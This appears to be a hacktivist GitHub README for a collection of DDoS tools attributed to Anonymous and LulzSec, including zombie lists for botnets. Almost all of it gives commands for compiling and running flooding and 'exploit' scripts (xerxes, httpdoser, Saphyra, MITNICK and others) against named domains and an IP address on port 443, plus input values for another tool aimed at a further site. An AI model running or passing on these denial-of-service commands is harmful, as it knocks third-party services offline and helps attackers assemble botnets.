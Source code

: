 # LulZSeCDdos
This repository brings together the best Ddos Tools created by Anonymous, LulzSeC 
and other Hacktivists, including txt with zombies to use in Botnets

XerXers
gcc xerxes.c -o xerxes

./xerxes www.coñazo.org.il 80

-------------------------------------------------------------------------------------------------------
python2.7  Cannabis.py http://landser.com

python2.7  bot.py http://landser.com

python2.7  eco.py http://landser.com

python2.7  exploit.py -t 63.141.128.8 -r 1000 -T 1000 -p 443     (service tor start)

python2.7  god.py http://landser.com  socks5.txt

python2.7 'httpdoser(1).py' http://landser.com

python2.7 httpdoser.py  http://landser.com

python2.7 Keni.py  http://landser.com

python2.7 m60.py  http://landser.com

python2.7 MH.py  http://landser.com

python2.7 MITNICK.py  63.141.128.8 443 65500 

python2.7  Sadattack.py http://landser.com

python2.7  Saphyra.py http://landser.com 
-----------------------------------------------------------------------------------------------
anonsec
python3 anonsec.py

0

https://pollazo.com

y

1

800

100

enter
